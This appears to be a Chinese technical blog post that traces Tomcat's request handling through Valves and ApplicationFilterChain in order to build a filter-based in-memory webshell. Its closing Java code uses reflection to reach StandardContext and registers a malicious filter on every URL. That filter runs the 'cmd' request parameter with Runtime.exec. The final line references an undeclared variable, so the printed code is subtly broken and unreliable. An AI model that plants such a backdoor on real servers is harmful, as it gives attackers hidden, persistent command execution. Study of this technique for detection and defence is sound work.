进入了 WsFilter.doFilter() 方法，然后继续走回了 ApplicationFilterChain 的 doFilter 方法中。然后继续调用 internalDoFilter 方法

这里的 filter 是 WsFIlter ,tomcat 初始化时注册的。

chain 是 ApplicationFilterChain 

```java
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
```

因此调用 chain.doFilter 方法就由回到了 ApplicationFilterChain 的 doFilter 方法中，继续走这个循环直到最后一个 filter

这里不会进入 for (pos < n) 分支下，进入该分支，最后调用 service 方法

如果要基于 filter 创建一个内存马，需要找到哪些地方的代码实现了 filter 的创建，基于此创建一个恶意 filter。


总体调用栈如下，doFilter 之前的调用栈实现了 filter 的创建。

从 Thread.run() 到 NioEndpoint$SocketProcessor.doRun() ，Tomcat 内部维护的一个线程池，当一个 http 请求进来时分配一个线程处理这份请求，

这些部分应该是处理原始 tcp 字节流，识别 HTTP 方法、请求路径（/filter）、请求头（Headers）等信息，封装成一个 org.apache.coyote.Request 对象传入 CoyoteAdapter.service 方法

该方法将 org.apache.coyote.Request 对象封装成 org.apache.catalina.connector.RequestFacade 对象，并且解析请求 url,参数等，将其分到相应的 context (web 应用) 

```java
postParseSuccess = postParseRequest(req, request, res, response);
if (postParseSuccess) {
    //check valves if we support async
    request.setAsyncSupported(
            connector.getService().getContainer().getPipeline().isAsyncSupported());
    // Calling the container
    connector.getService().getContainer().getPipeline().getFirst().invoke(
            request, response);
}
```

再次引用这张图片，当前就是  connector --> service 阶段，

前文提到 Service 负责将 connector 和 engine 连接起来，将收到 的 connector 监听到的请求传递给与之关联的顶层容器 engine （Service 不提供转发数据的功能，属于是提供联系方式的作用）

然后每个容器 engine host context wrap 都关联了一个单独的 Pipeline 实例，Pipeline 维护了一个 Valve 列表，并负责按顺序调用它们。 valve 是 tomcat 处理请求的最小单元，每个 pipeline 有一组 valve ，相继调用，最后一个 valve 会分发这个请求到合适的子容器，比如 host 的 pipeline 的最后一个 valve 会将 req res 传递到对应的 context，可以理解为不同层级 pipeline的 basicValve 的 invoke() 是在选择相应的子容器.因此就有了接下来的一系列 invoke

engine valve 应该就是engine容器 pipeline 中的 basic valve，而 host 容器的 pipeline 的 valve 是 AccessLogValve,ErrorReportValve,最后一个是 HostValve，以此类推，Context 容器的 pipeline 的第一个 valve 是 AuthenticatorBase ...... 到 warp 的 basicValve 的 invoke 方法调用了 filterChain.doFilter() 方法。

filterChain

```java
// Create the filter chain for this request
ApplicationFilterChain filterChain =
        ApplicationFilterFactory.createFilterChain(request, wrapper, servlet);

```

其中的参数 wrapper ,最后一个 valve 并没有 servlet,需要回头找他隶属的 wrap 对象，该对象内部有 Servlet 对象 ，通过 wrapper.allocate() 拿到 servlet 对象。

```java
StandardWrapper wrapper = (StandardWrapper) getContainer();
```

跟进 createFilterChain 方法。其中 ApplicationFilterChain 

```
Implementation of javax.servlet.FilterChain used to manage the execution of a set of filters for a particular request. When the set of defined filters has all been executed, the next call to doFilter() will execute the servlet's service() method itself.
```


```java
public static ApplicationFilterChain createFilterChain(ServletRequest request,
        Wrapper wrapper, Servlet servlet) {

    // If there is no servlet to execute, return null
    if (servlet == null) {
        return null;
    }

    // Create and initialize a filter chain object
    ApplicationFilterChain filterChain = null;
    if (request instanceof Request) {
        Request req = (Request) request;
        // 一般不会进入这个分支，容易报错
        if (Globals.IS_SECURITY_ENABLED) {
            // Security: Do not recycle
            filterChain = new ApplicationFilterChain();
        } else {
            filterChain = (ApplicationFilterChain) req.getFilterChain();
            if (filterChain == null) {
                filterChain = new ApplicationFilterChain();
                req.setFilterChain(filterChain);
            }
        }
    } else {
        // Request dispatcher in use
        filterChain = new ApplicationFilterChain();
    }

    filterChain.setServlet(servlet);
    filterChain.setServletSupportsAsync(wrapper.isAsyncSupported());

    // Acquire the filter mappings for this Context
    StandardContext context = (StandardContext) wrapper.getParent();
    FilterMap filterMaps[] = context.findFilterMaps();

    // If there are no filter mappings, we are done
    // 从这里开始如果 filterMaps 不为空，会去获取需要的 filter mappings 信息，context.findFilterMaps()从 Web 应用中拿到所有的 Filter 映射规则。把 web.xml 里写的 <filter-mapping> 标签，或者 @WebFilter 注解生成的规则，读取成一个数组
    if ((filterMaps == null) || (filterMaps.length == 0)) {
        return filterChain;
    }

    // Acquire the information we will need to match filter mappings
    // 获取调度器类型，urlpath servletname 为下文遍历匹配
    DispatcherType dispatcher =
            (DispatcherType) request.getAttribute(Globals.DISPATCHER_TYPE_ATTR);

    String requestPath = null;
    Object attribute = request.getAttribute(Globals.DISPATCHER_REQUEST_PATH_ATTR);
    if (attribute != null){
        requestPath = attribute.toString();
    }

    String servletName = wrapper.getName();

    // Add the relevant path-mapped filters to this filter chain
    for (FilterMap filterMap : filterMaps) {
        if (!matchDispatcher(filterMap, dispatcher)) {
            continue;
        }
        if (!matchFiltersURL(filterMap, requestPath)) {
            continue;
        }
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
                context.findFilterConfig(filterMap.getFilterName());
        if (filterConfig == null) {
            // FIXME - log configuration problem
            continue;
        }
        // 全部匹配则将当前 filter 加入 filterChain
        filterChain.addFilter(filterConfig);
    }

    // Add filters that match on servlet name second
    for (FilterMap filterMap : filterMaps) {
        if (!matchDispatcher(filterMap, dispatcher)) {
            continue;
        }
        if (!matchFiltersServlet(filterMap, servletName)) {
            continue;
        }
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
                context.findFilterConfig(filterMap.getFilterName());
        if (filterConfig == null) {
            // FIXME - log configuration problem
            continue;
        }
        filterChain.addFilter(filterConfig);
    }
	// 第一个 for 按照 <url-pattern> 匹配，第二个按照 servlet-name 匹配
    // Return the completed filter chain
    return filterChain;
}

```

接下来只需构造 evil filtermaps、filterconfig ，等加载进去就达到了目的。

filterMaps 中的数据对应 web.xml 中的 filter-mapping 标签

必要属性为 dispatcherMapping、filtername、urlpatterns ，因为 if 分支的判断就是比对这些数据，如图



filterConfig 包含了 StandardContext、filterDef 等， filterDef 对应web.xml中的 filter 标签。

filterDef必要的属性为filter、filterClass、filterName

```java
StandardContext context = (StandardContext) wrapper.getParent();
FilterMap filterMaps[] = context.findFilterMaps();
```

filterMaps 来自于 StandardContext 的 findFilterMaps 方法，于是进入 StandardContext 类查找看看有没有增改 filtermaps 的方法。找到如下两种方法。

```java
    /**
     * Add a filter mapping to this Context at the end of the current set
     * of filter mappings.
     *
     * @param filterMap The filter mapping to be added
     *
     * @exception IllegalArgumentException if the specified filter name
     *  does not match an existing filter definition, or the filter mapping
     *  is malformed
     */
    @Override
    public void addFilterMap(FilterMap filterMap) {
        validateFilterMap(filterMap);
        // Add this filter mapping to our registered set
        filterMaps.add(filterMap);
        fireContainerEvent("addFilterMap", filterMap);
    }


    /**
     * Add a filter mapping to this Context before the mappings defined in the
     * deployment descriptor but after any other mappings added via this method.
     *
     * @param filterMap The filter mapping to be added
     *
     * @exception IllegalArgumentException if the specified filter name
     *  does not match an existing filter definition, or the filter mapping
     *  is malformed
     */
    @Override
    public void addFilterMapBefore(FilterMap filterMap) {
        validateFilterMap(filterMap);
        // Add this filter mapping to our registered set
        filterMaps.addBefore(filterMap);
        fireContainerEvent("addFilterMap", filterMap);
    }

```

evil filterconfig 通过 ApplicationFilterChain#addFilter 方法添加到 filters 中的，

```java
   /**
     * Add a filter to the set of filters that will be executed in this chain.
     *
     * @param filterConfig The FilterConfig for the servlet to be executed
     */
    void addFilter(ApplicationFilterConfig filterConfig) {

        // Prevent the same filter being added multiple times
        for(ApplicationFilterConfig filter:filters) {
            if(filter==filterConfig) {
                return;
            }
        }

        if (n == filters.length) {
            ApplicationFilterConfig[] newFilters =
                new ApplicationFilterConfig[n + INCREMENT];
            System.arraycopy(filters, 0, newFilters, 0, n);
            filters = newFilters;
        }
        filters[n++] = filterConfig;

    }
```

总体思路就是

1. 先拿到当前应用的 StandardContext 对象
2. 创建 evil filter,
2. 使用 FilterDef 对 filter 封装，添加比对所需要的属性，使用ApplicationFilterConfig 封装 filterDef
3. 创建 filtermap 对象，通过以上两种 addFilterMap 方法将 filtermap 对象写入 StandardContext 对象的 filterMaps 中



这样完成了 web 应用启动后的 filter 的添加，通过这个 evil filter 执行命令。

```java
//// 1. 获取 standardContext 对象

// 获取 ApplicationContextFacade 类
ServletContext servletContext = request.getSession().getServletContext();
 
// 获取 ApplicationContextFacade 类中的属性 context 即ApplicationContext 类
Field applicationContextField = servletContext.getClass().getDeclaredField("context");
applicationContextField.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
 
// 获取 ApplicationContext 类中的属性 context 即 StandardContext 类
Field standardContextField = applicationContext.getClass().getDeclaredField("context");
standardContextField.setAccessible(true);
StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);


//// 2. 创建 evil filter

public class Filter_mem implements Filter {
    
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        String cmd=request.getParameter("cmd");
        try {
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }catch (NullPointerException n){
            n.printStackTrace();
        }
    }
}

//// 3. 使用 FilterDef 对 filter 封装，添加比对所需要的属性，
Filter_mem filter = new Filter_mem();
String name = "Filter_mem";
FilterDef filterDef = new FilterDef();
filterDef.setFilter(filter);
filterDef.setFilterName(name);
filterDef.setFilterClass(filter.getClass().getName());
standardContext.addFilterDef(filterDef);


//// 4. 创建 filtermap 对象，通过以上两种 addFilterMap 方法将 filtermap 对象写入 StandardContext 对象的 filterMaps 中
FilterMap filterMap = new FilterMap();
filterMap.addURLPattern("/*");
filterMap.setFilterName(name);
filterMap.setDispatcher(DispatcherType.REQUEST.name());
standardContext.addFilterMapBefore(filterMap);

//// 5. 获取 standardContext 中的属性值 filterConfigs ，一个map 对象， 然后通过反射构造 ApplicationFilterConfig 对象并封装 filterDef，然后将 ApplicationFilterConfig 对象 put 进 map 。
Field filterConfigsField = StandardContext.class.getDeclaredField("filterConfigs");

filterConfigsField.setAccessible(true); 

HashMap<String, ApplicationFilterConfig> filterConfigs = 
        (HashMap<String, ApplicationFilterConfig>) filterConfigsField.get(standardContext);


Constructor<?> constructor = ApplicationFilterConfig.class.getDeclaredConstructor(
            org.apache.catalina.Context.class, 
            FilterDef.class);

constructor.setAccessible(true); 
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);      

filterConfigs.put(filterName, filterConfig);
```


